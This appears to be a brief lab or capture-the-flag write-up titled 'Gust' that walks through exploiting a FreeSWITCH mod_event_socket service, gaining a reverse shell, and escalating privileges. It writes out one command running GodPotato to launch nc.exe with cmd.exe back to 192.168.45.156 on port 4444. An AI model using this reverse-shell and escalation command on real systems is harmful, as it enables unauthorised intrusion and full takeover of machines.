 # Gust

I start off by scanning for open ports:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I don't find anything so i look for exploits for 'FreeSWITCH mod\_event\_socket' and find this:

{% embed url="https://www.exploit-db.com/exploits/47799" %}

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i reverse shell with a python base64 encoded payload

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then i transfer file because we have impersonate privilege:

<figure><img src="../../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

and after also transferring nc.exe i run:

```
C:\Temp\GodPotato-NET4.exe -cmd "C:\Temp\nc.exe -e cmd.exe 192.168.45.156 4444"
```

<figure><img src="../../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>
